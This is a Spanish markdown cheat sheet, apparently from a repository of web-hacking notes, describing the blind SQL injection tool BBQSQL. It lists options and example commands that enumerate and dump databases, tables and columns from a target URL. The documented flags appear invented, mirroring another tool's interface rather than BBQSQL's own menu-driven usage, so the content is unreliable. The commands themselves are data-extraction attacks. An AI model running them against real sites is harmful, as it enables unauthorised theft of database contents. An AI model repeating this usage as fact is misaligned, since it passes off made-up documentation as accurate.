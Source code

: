 ### **Hacking Web/Inyecciones SQL/BBQSQL.md**

# BBQSQL

## Descripción

`BBQSQL` es una herramienta de inyección SQL ciega que utiliza técnicas de fuerza bruta para extraer datos de bases de datos vulnerables. Está diseñada para entornos donde las respuestas de la aplicación web son limitadas o no contienen información útil para detectar inyecciones.

## Uso

```bash
bbqsql [opciones]
```

### Opciones principales

- `-u URL`: Especifica la URL objetivo para la inyección SQL.
- `-p PARAM`: Define el parámetro vulnerable a probar.
- `--technique TECH`: Selecciona la técnica de inyección (boolean, time, etc.).
- `--threads N`: Define el número de hilos para acelerar la explotación.
- `--dump`: Extrae el contenido de la base de datos.
- `--dbs`: Enumera las bases de datos disponibles.
- `--tables`: Enumera las tablas de una base de datos específica.
- `--columns`: Enumera las columnas de una tabla específica.

## Ejemplos

- Probar una URL para inyección SQL y enumerar las bases de datos:
  
  ```bash
  bbqsql -u "http://example.com/page.php?id=1" -p id --technique boolean --dbs
  ```

- Extraer todas las tablas de una base de datos específica:
  
  ```bash
  bbqsql -u "http://example.com/page.php?id=1" -p id --technique boolean -D nombre_db --tables --dump
  ```

- Extraer columnas específicas de una tabla:
  
  ```bash
  bbqsql -u "http://example.com/page.php?id=1" -p id --technique boolean -D nombre_db -T nombre_tabla --columns columna1,columna2 --dump
  ```

- Usar múltiples hilos para acelerar la explotación:
  
  ```bash
  bbqsql -u "http://example.com/page.php?id=1" -p id --technique boolean --threads 10 --dbs
  ```
